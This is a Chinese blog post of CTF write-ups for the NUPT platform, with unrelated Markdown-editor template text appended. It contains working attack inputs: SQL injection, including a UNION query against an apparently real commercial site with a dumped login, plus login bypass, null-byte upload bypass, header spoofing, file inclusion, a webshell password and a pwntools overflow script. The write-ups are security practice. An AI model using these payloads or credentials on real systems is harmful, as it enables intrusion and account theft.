<!--yml
category: 未分类
date: 2022-04-26 14:33:44
-->

# 南邮ctf平台部分题解_这是游戏吗的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_43679903/article/details/84033608](https://blog.csdn.net/qq_43679903/article/details/84033608)

**分享一下我老师大神的人工智能教程！零基础，通俗易懂！[http://blog.csdn.net/jiangjunshow](https://blog.csdn.net/jiangjunshow/article/details/77338485)**

**也欢迎大家转载本篇文章。分享知识，造福人民，实现我们中华民族伟大复兴！**

**骚年来一发吗**

* * *

根据加密的函数，写个解密的函数就可以了

```
<?php function encode($str){    $_o=strrev($str);    for($_0=0;$_0<strlen($_o);$_0++){        $_c=substr($_o,$_0,1);        $__=ord($_c)+1;        $_c=chr($__);        $_=$_.$_c;    }    return str_rot13(strrev(base64_encode($_)));}function decode($string){    $string=base64_decode(strrev(str_rot13($string)));    for($_0=0;$_0<strlen($string);$_0++){        $_c=substr($string,$_0,1);        $__=ord($_c)-1;        $_c=chr($__);        $_=$_.$_c;    }    $string=strrev($_);    return $string;}$string='iEJqak3pjIaZ0NzLiITLwWTqzqGAtW2oyOTq1A3pzqas';echo decode($string); ?>
```

**wireshark 2**

* * *

拿到这题，用wireshark打开之后，右键追踪了一下第一个包的tcp流，鼠标拖到最下面，居然有收获

 

压缩包啊

赶紧就把它提取出来

（关于提取方法，最好是先把以原始数据文件形式保存，然后用十六进制编辑器来提取，也有一个偷懒的办法，就是用foremost直接提取，不过有些时候提取没有手工效果好，这里还因为它提取出来的压缩包里额外多了一个文件，所以是不可以的）

提出来之后，稍微修复一下，提示文件格式损坏，我就没办法了，后来龙神说用zip修复工具，就下了一个（可以直接百度搜到），工具处理之后就好多了

继续解压之路吧，没想到有密码，试了一下伪加密也不行，这里有坑，如果输任意字母的话，不会提示密码错误，但是flag.Txt 内容就是乱码，像这样

 

原因我也不知道

之后就是找密码的过程了，一开始以为是爆破，于是爆破6位数字，但没结果

实在没办法了，还在kali里面用查字符串工具在原文件里查字符串，想要找密码也是够了，后来发现

 

然后龙神想到可以在源文件里过滤一下这种http的包，结果是很讽刺的

 

我们走了多少弯路。。

追踪了下secret的tcp流，得到

卒……………….

最后再说一下感受，好的工具真重要

又重新按照之前的过程做了一遍这题，但是，做不出来了，修复压缩包的时候总是修复不好，没办法，求助，明神说中间有两行 PK，删掉下面那行就好了，神奇的思路，我也不知道为什么

 

**MD5**

* * *

只有三个位置有缺失，写一下，很快就出来了

```
import md5import stringfor i in string.uppercase: for j in string.uppercase:  for k in string.uppercase:   a='TASC'+i+'O3RJMV'+j+'WDJKX'+k+'ZM'   b=a   c=md5.md5(a).hexdigest()   if(c[0:5]=='e9032'):    print c
```

**异性相吸**

* * *

就是简单的一个异或.......

```
file_a=open('mi.txt','rb')file_b=open('mingwen.txt','rb')a=file_a.read()b=file_b.read()s=''for i,j in zip(a,b):    s+=chr(ord(i)^ord(j))print s
```

**丘比龙DE女神**

* * *

乍一看这题目，感觉有点熟悉，以前好像看过这样题目的wp，于是搜了一下

[http://drops.wooyun.org/tips/4070](http://drops.wooyun.org/tips/4070)

 

思路有点不一样

用winhex查看一下图片，发现最后有  PK  还有一张图片的名字  nvshen.jpg

于是拿foremost去自动提取，然而居然没结果，怎么会没结果呢，一定是有一个压缩包啊，没办法只好手工提取，winhex查找16进制：504B0304 （zip文件头是504B0304，可以临时找两个zip文件看，不用记）结果，没找到。。。。。。。。。

那就换个思路，找图片的结束部分，下几张gif图片比对一下，搜了下 003B，

 

应该就是这里了，但是文件头不是PK，先弄下来再说

之后找了几个zip文件对比着把弄下来的文件修复了头部，然后解压

 

提示有密码，那就把刚刚看到的那个  love  输进去试试，然后，图片就出来了，之后就没什么了

**密码重置2**

* * *

这题的提示很多，再根据密码重置1  ，还是比较好做的

第一个提示说管理员邮箱很容易找到，在源代码里就找到了管理员邮箱

之后说linux    vi编辑器，异常退出之后会留下备份文件，查了一下应该是原来的文件名后面加上 .swp  

然后根据密码重置1 的思路，把路径改为

 

即可得到内容，这里看因为编码问题是乱码，那就抓个包，在抓包工具里看

对邮箱的限制

 

对密码的要求，等于0而且长度为10

写了十个0，顺利拿到flag

flag:nctf{thanks_to_cumt_bxs}

**注入实战1**

* * *

##### 这题想复杂了，直接盲注就好了

##### http://www.backstagecommerce.ca/services.php

##### ?id=4 and 1=2 UNION SELECT 1,2,group_concat(username,0x3a,password),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19 from users -- -

##### 注出来是这个，把密码MD5就可以了

##### marketing:BSCmarketing24

##### 这题给我的启示就是先盲注，不行的话再按库，表，列来

##### 常见表：admin  user  users

常见字段： user  username  pass password

flag：nctf{f3d6cc916d0739d853e50bc92911dddb}

**sql注入2**

* * *

**综合题**

* * *

**sql injection 4**

* * *

**php反序列化**

* * *

并不知道怎么做

一开始找到了php的反序列化函数说明，还准备自己手动来一下,不过应该一开始思路就错了

搜了一下，居然发现了原题，[http://drops.wooyun.org/papers/660](http://drops.wooyun.org/papers/660)

根据这个方法，我去做了下，而且是无脑的把一串问号换成了 *  ，生成反序列化的串之后怎么也不对

明神说肯定不对啊，他那写的是 ****  ，但其实不是啊，那个只是不让你看见而已。。

顿时觉得自己傻帽了，但是又不知道怎么能够知道secret的值，要是知道不就做出来了吗

明神说应该是 php的引用，也就是应该写成这样：

$a->enter=&$a->secret;

 PHP的引用允许你用两个变量来指向同一个内容，这样就好办多了

（对了，不用进行url编码）

Flag ：nctf{serialize_and_unserialize}

**密码重置**

* * *

之前一直放着，不懂怎么做

今天又过了一遍，就出来了

首先按默认账号 ctfuser  密码 ctfuser 提交一下

 

注意到有一个参数，urldecode之后再base64decode，发现是ctfuser

试了一下直接把参数改成 admin base64之后再urlencode，把账号改成admin

但是发现账号栏是只读的

 

那只有抓包来改改试试了

需要修改的地方如下

 

然后发送就得到了flag

 

Flag :nctf{reset_password_often_have_vuln}                        

**SQL注入1**

* * *

继续龙神的指导

注入，还给了源码，那就分析吧

 

只是把输入的参数直接拿过去，进行sql语句查询，没有对输入的参数进行过滤

因为密码不知道，所以就要想办法使其忽略密码，就是把密码那儿给绕过，通过观察可以知道，可以让其只判断user是否为admin，后面的给注释掉，也就是给username那框赋值为：

admin') -- -                  --是注释，为什么这么写，是因为这是sql风格的注释

提交即可

 

flag:nctf{ni_ye_hui_sql?}

**上传绕过**

* * *

没什么思路，在fiddler里把filename改成各种名字

我提交a.jpg
 提交a.php
 不行

龙神说截断，我就试了

a.php jpg

          a.jpg  php

          a.php.jpg

          a.jpg.php

依然不行

再之后龙神说改16进制，空格改成 00，这样可以截断，

到最后，我才知道自己改错了地方，不是filename，而是改filepath下面的那行，具体原理我也不知道，这里有介绍过程：[http://www.myhack58.com/Article/html/3/8/2013/36507.htm](http://www.myhack58.com/Article/html/3/8/2013/36507.htm)

然后改的成果是这样的

 

 

flag:nctf{welcome_to_hacks_world}

**伪装者**

* * *

（这题好像不能这么做了，出不来flag，就看看思路吧）

经过前面的   你从哪里来的指点，想到了应该改一下referer，

 

这个东西是只有直接点击那个链接才会出现的，如果没有的话，自己再加一个

之后还是不行，当然不行，不能两道题都出一样吧，后来龙神说X-forwarded-for

然后就去查了一下，发现了可以进行ip伪造

[http://www.myhack58.com/Article/html/3/7/2014/41725.htm](http://www.myhack58.com/Article/html/3/7/2014/41725.htm)

原链接讲的是用插件来伪造的，其实只要加一句话就够了，这里我们要根据题目伪造本地登录，那就还是127.0.0.1

于是最后应该把请求改成这样

 

提交也就拿到了flag

 

Flag：nctf{happy_http_headers}

**PHP是世界上最好的语言**

* * *

坑，坑，坑

题目看着很简单，不让等于这个，又让等于这个。。尴尬症都犯了

明神说url编码，传输过去默认会解码一次，也就是说你需要把要传的值url编码两次

你要传的值是 hackerDJ，感觉这里又是一个坑，因为url编码一般是不会对字母转换的，这里就要手工来了……….

 

类似于这样的东西，手工之后是这样的：

%68%61%63%6b%65%72%44%4a

这样之后再拿工具来urlencode一次：

%2568%2561%2563%256b%2565%2572%2544%254a

把这个传过去就OK了

做这个做的郁闷……………之后又听说只对一个字母做变换就好了…

**/x00**

* * *

**sql injection 3**

* * *

**MYSQL**

* * *

我一开始的思路是这样的

找到这个  然后试了一下，最多只有这几个有内容

 

再之后就没思路了，

龙神告诉我是php msql 精度问题

于是试了试把1024 改成 1024.000000000

不行就在后面又加了一个1，结果

 

很好很好，后来试了 1024.1也可以

Flag:nctf{query_in_mysql}

**Download~！**

* * *

虽然提示不让下音乐，但我还是下载了音乐，并且还听了好几遍………..

龙神说看源码的下载链接是base64，然后解出来就是那两个歌的名字

到这里我居然还没思路………龙神无奈的说换成download.php试一下

于是………..就下到了这个

 

再换成hereiskey.php，答案就出来了

 

这思路，真厉害

Flag:nctf{download_any_file_666}

**单身一百年也没用**

* * *

**文件包含**

* * *

我以为我都试过了，但其实没有…….

可能是试了几次然后就放弃了，不知道

文件包含总结网址

[http://drops.wooyun.org/tips/3827](http://drops.wooyun.org/tips/3827)

利用的是

 

然后得到一段base64，解密之后是判断的源码

 

可以看到过滤了 ../   tp    input   data

Filter没有过滤，那么就得到flag

flag:nctf{edulcni_elif_lacol_si_siht}

**你从哪里来**

* * *

这题跟我的习惯有点关系吧，我一般直接把网址拖过去，火狐就直接打开了，但是如果这样，

把fiddler打开，设置成请求前拦截

可以对比一下差别：

 

 

这个就让我把referer给忽略掉了，之后又是一顿查怎么伪造身份，方向就跑偏了

习惯在这儿害死人啊，不过说到底还是基础不扎实……….

 改成这样就好了

 

以后还是把flag附在最后吧，以防以后有用……

flag:nctf{http_referer}

**md5 collision **

* * *

我没思路，队友说 QNKCDZO 的MD5值是0E 开头的，于是秒懂，因为比较的是两个串 但是可以解析成数字，也就是说，结果都是0.。。

于是去找md5值前两位是0E 的字符串，一开始找到这个：

 

但放上去居然不对，提示我false，我就不理解了

之后又把 QNKCDZO 的MD5值搜了一下，然后就找到了

 

[http://www.4byte.cn/question/17255/why-md5-240610708-is-equal-to-md5-qnkcdzo.html](http://www.4byte.cn/question/17255/why-md5-240610708-is-equal-to-md5-qnkcdzo.html)

思路很好

看源代码之后，iframe奇怪！

那些属性都是0，于是当然要点链接进去看看了，每次都点第一个iframe里的链接

----------------------------------------------------------------------------------------------------------------------------

----------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------

----------------------------------------------------------------------------------------------------------------------------

----------------------------------------------------------------------------------------------------------------------------

就到了这里，完全被这个故事吸引了，而key还是没找到。。

不得不说眼瞎了，小伙伴又告诉了我

这堆我看起来没用的js。。

我已经不想说话了

 ****综合题2**

* * *

链接在此[http://www.hazzel.cn/archives/10.html](http://www.hazzel.cn/archives/10.html)

貌似最后连菜刀有点错误，我测试不行，换了一下

密码是 wtf

**ReadAsm2**

* * *

汇编代码慢慢去看，理清思路，还是可以理解的

函数的输入有两个参数，一个数组，一个数字：28，数组的长度是29，第一个是0，最后一个0x1c，是28

看完输入就具体看看汇编代码吧

做了一些处理之后，跳转，比较之后再跳回上面，这样的结构很容易想到while循环，那一定是有一个循环变量和一个出口的，

大概看一下，发现循环变量就放在 [rbp-0x4] ，它每一次的值都会被加1，出口呢，就是比较的时候另外一个 [rbp-0x1c] 了

我们也应该知道那个数组被放在哪里了，就在  [rbp-0]~[rbp-0x1c] 这个范围里，[rbp-0x1c] 这个地方存的是0x1c，就是28

然后看看循环里面干了什么事情，

前面就是取循环变量和数组中的值，

xor    edx,ecx   这句是关键，异或之后放到edx中

再之后会把异或之后的结果存在原来的数组里

最后会输出处理之后的数组

理清思路，其实很简单，就是把数组跟循环变量异或之后输出就可以了，下面上脚本

```
aa = [0x67,0x6e,0x62,0x63,0x7e,0x74,0x62,0x69,0x6d,0x55,0x6a,0x7f,0x60,0x51,0x66,0x63,0x4e,0x66,0x7b,0x71,0x4a,0x74,0x76,0x6b,0x70,0x79,0x66]str1 = ""for i in range(len(aa)): str1 += chr((i+1)^aa[i])print(str1)
```

flag：flag{read_asm_is_the_basic}

找一个在线pyc反编译网站：https://tool.lu/pyc/

反编译出来写一个解密函数

```
def de(message): message = message.decode("base64") s = '' for i in message:  x = (ord(i)-32) ^ 32  print(chr(x)) return s
```

但是这样出来结果不对：nctf{d3c0mpil1n9y}

有三个不可见字符，考虑一下爆破

```
import stringdic = string.printable[:-6]for i1 in dic: for i2 in dic:  for i3 in dic:   str1 = "nctf{d3c0mpil1n9" + i1 + i2 + "y" + i3 + "}"   if encode(str1) == correct:    print(str1)
```

得到结果

flag：nctf{d3c0mpil1n9_PyC}

思路就是利用gets函数覆盖生日值，方法下载脚本里了，需要用到pwntools

```
from pwn import  *conn = process("./test") payload = 'a'*8 + p32(1926)    conn.recvuntil("What\'s Your Birth?\n")conn.sendline("11")conn.recvuntil("What\'s Your Name?\n")conn.sendline(payload)conn.interactive()
```

应该是这样的，环境挂了，改天看看flag是什么

**最后的话。。**

往上面传图片是个累活。。

然后还剩：Vigenere

希望大神可以帮忙看看，给点思路。。** 

**感谢小伙伴            **

******

**你好！ 这是你第一次使用 **Markdown编辑器** 所展示的欢迎页。如果你想学习如何使用Markdown编辑器, 可以仔细阅读这篇文章，了解一下Markdown的基本语法知识。**

## **新的改变**

 **我们对Markdown编辑器进行了一些功能拓展与语法支持，除了标准的Markdown编辑器功能，我们增加了如下几点新功能，帮助你用它写博客：

1.  **全新的界面设计** ，将会带来全新的写作体验；
2.  在创作中心设置你喜爱的代码高亮样式，Markdown **将代码片显示选择的高亮样式** 进行展示；
3.  增加了 **图片拖拽** 功能，你可以将本地的图片直接拖拽到编辑区域直接展示；
4.  全新的 **KaTeX数学公式** 语法；
5.  增加了支持**甘特图的mermaid语法** 功能；
6.  增加了 **多屏幕编辑** Markdown文章功能；
7.  增加了 **焦点写作模式、预览模式、简洁写作模式、左右区域同步滚轮设置** 等功能，功能按钮位于编辑区域与预览区域中间；
8.  增加了 **检查列表** 功能。

## 功能快捷键

撤销：`Ctrl/Command` + `Z`
重做：`Ctrl/Command` + `Y`
加粗：`Ctrl/Command` + `B`
斜体：`Ctrl/Command` + `I`
标题：`Ctrl/Command` + `Shift` + `H`
无序列表：`Ctrl/Command` + `Shift` + `U`
有序列表：`Ctrl/Command` + `Shift` + `O`
检查列表：`Ctrl/Command` + `Shift` + `C`
插入代码：`Ctrl/Command` + `Shift` + `K`
插入链接：`Ctrl/Command` + `Shift` + `L`
插入图片：`Ctrl/Command` + `Shift` + `G`

## 合理的创建标题，有助于目录的生成

直接输入1次`#`，并按下`space`后，将生成1级标题。
输入2次`#`，并按下`space`后，将生成2级标题。
以此类推，我们支持6级标题。有助于使用`TOC`语法后生成一个完美的目录。

## 如何改变文本的样式

*强调文本* *强调文本*

**加粗文本** **加粗文本**

<mark>标记文本</mark>

~~删除文本~~

> 引用文本

H<sub>2</sub>O is是液体。

2<sup>10</sup> 运算结果是 1024.

## 插入链接与图片

链接: [link](https://mp.csdn.net).

图片: 

带尺寸的图片: 

当然，我们为了让用户更加便捷，我们增加了图片拖拽功能。

## 如何插入一段漂亮的代码片

去[博客设置](https://mp.csdn.net/configure)页面，选择一款你喜欢的代码片高亮样式，下面展示同样高亮的 `代码片`.

 `## 生成一个适合你的列表

1.  项目1
2.  项目2
3.  项目3

## 创建一个表格

一个简单的表格是这么创建的：

### 设定内容居中、居左、居右

使用`:---------:`居中
使用`:----------`居左
使用`----------:`居右

| 第一列 | 第二列 | 第三列 |
| :-: | --: | :-- |
| 第一列文本居中 | 第二列文本居右 | 第三列文本居左 |

### SmartyPants

SmartyPants将ASCII标点字符转换为“智能”印刷标点HTML实体。例如：

| TYPE | ASCII | <abbr title="超文本标记语言">HTML</abbr> |
| --- | --- | --- |
| Single backticks | `'Isn't this fun?'` | ‘Isn’t this fun?’ |
| Quotes | `"Isn't this fun?"` | “Isn’t this fun?” |
| Dashes | `-- is en-dash, --- is em-dash` | – is en-dash, — is em-dash |

## 创建一个自定义列表

Markdown

Text-to- <abbr title="超文本标记语言">HTML</abbr> conversion tool

Authors

John

Luke

## 如何创建一个注脚

一个具有注脚的文本。

## 注释也是必不可少的

Markdown将文本转换为 <abbr title="超文本标记语言">HTML</abbr>。

## KaTeX数学公式

您可以使用渲染LaTeX数学表达式 [KaTeX](https://khan.github.io/KaTeX/):

Gamma公式展示 Γ ( n ) = ( n − 1 ) ! ∀ n ∈ N \Gamma(n) = (n-1)!\quad\forall n\in\mathbb N Γ(n)=(n−1)!∀n∈N 是通过欧拉积分

Γ ( z ) = ∫ 0 ∞ t z − 1 e − t d t &ThinSpace; . \Gamma(z) = \int_0^\infty t^{z-1}e^{-t}dt\,. Γ(z)=∫0∞​tz−1e−tdt.

> 你可以找到更多关于的信息 **LaTeX** 数学表达式[here](http://meta.math.stackexchange.com/questions/5020/mathjax-basic-tutorial-and-quick-reference).

## 新的甘特图功能，丰富你的文章

```
gantt
        dateFormat  YYYY-MM-DD
        title Adding GANTT diagram functionality to mermaid
        section 现有任务
        已完成               :done,    des1, 2014-01-06,2014-01-08
        进行中               :active,  des2, 2014-01-09, 3d
        计划一               :         des3, after des2, 5d
        计划二               :         des4, after des3, 5d 
```

## UML 图表

可以使用UML图表进行渲染。 [Mermaid](https://mermaidjs.github.io/). 例如下面产生的一个序列图：:

<svg xmlns="http://www.w3.org/2000/svg" id="mermaid-svg-x45VqMRD2rtzgd5w" viewBox="-50 -10 750 467.35"><g><g><line class="actor-line" id="actor3" stroke="#999" stroke-width="0.5px" x1="75" y1="5" x2="75" y2="456.35"><rect class="actor" fill="#eaeaea" stroke="#666" x="0" y="0" rx="3" ry="3"><text class="actor" alignment-baseline="central" dominant-baseline="central" x="75" y="32.5"><tspan x="75" dy="0">张三</tspan></text></rect></line></g> <g><line class="actor-line" id="actor4" stroke="#999" stroke-width="0.5px" x1="275" y1="5" x2="275" y2="456.35"><rect class="actor" fill="#eaeaea" stroke="#666" x="200" y="0" rx="3" ry="3"><text class="actor" alignment-baseline="central" dominant-baseline="central" x="275" y="32.5"><tspan x="275" dy="0">李四</tspan></text></rect></line></g> <g><line class="actor-line" id="actor5" stroke="#999" stroke-width="0.5px" x1="475" y1="5" x2="475" y2="456.35"><rect class="actor" fill="#eaeaea" stroke="#666" x="400" y="0" rx="3" ry="3"><text class="actor" alignment-baseline="central" dominant-baseline="central" x="475" y="32.5"><tspan x="475" dy="0">王五</tspan></text></rect></line></g> <g><text class="messageText" x="175" y="93">你好！李四, 最近怎么样?</text></g> <g><text class="messageText" x="375" y="128">你最近怎么样，王五？</text></g> <g><text class="messageText" x="175" y="163">我很好，谢谢!</text></g> <g><text class="messageText" x="375" y="198">我很好，谢谢!</text></g> <g><rect class="note" fill="#edf2ae" stroke="#666" x="500" y="215" rx="0" ry="0"><text class="noteText" fill="black" x="516" y="245"><tspan x="516">李四想了很长时间,</tspan> <tspan x="516" dy="23">文字太长了</tspan> <tspan x="516" dy="23">不适合放在一行.</tspan></text></rect></g> <g><text class="messageText" x="175" y="329.35">打量着王五...</text></g> <g><text class="messageText" x="275" y="364.35">很好... 王五, 你怎么样?</text></g> <g><rect class="actor" fill="#eaeaea" stroke="#666" x="0" y="391.35" rx="3" ry="3"><text class="actor" alignment-baseline="central" dominant-baseline="central" x="75" y="423.85"><tspan x="75" dy="0">张三</tspan></text></rect></g> <g><rect class="actor" fill="#eaeaea" stroke="#666" x="200" y="391.35" rx="3" ry="3"><text class="actor" alignment-baseline="central" dominant-baseline="central" x="275" y="423.85"><tspan x="275" dy="0">李四</tspan></text></rect></g> <g><rect class="actor" fill="#eaeaea" stroke="#666" x="400" y="391.35" rx="3" ry="3"><text class="actor" alignment-baseline="central" dominant-baseline="central" x="475" y="423.85"><tspan x="475" dy="0">王五</tspan></text></rect></g></g></svg>

这将产生一个流程图。:

## FLowchart流程图

我们依旧会支持flowchart的流程图：

*   关于 **Flowchart流程图** 语法，参考 [这儿](http://adrai.github.io/flowchart.js/).

## 导出与导入

### 导出

如果你想尝试使用此编辑器, 你可以在此篇文章任意编辑。当你完成了一篇文章的写作, 在上方工具栏找到 **文章导出** ，生成一个.md文件或者.html文件进行本地保存。

### 导入

如果你想加载一篇你写过的.md文件或者.html文件，在上方工具栏可以选择导入功能进行对应扩展名的文件导入，
继续你的创作。`****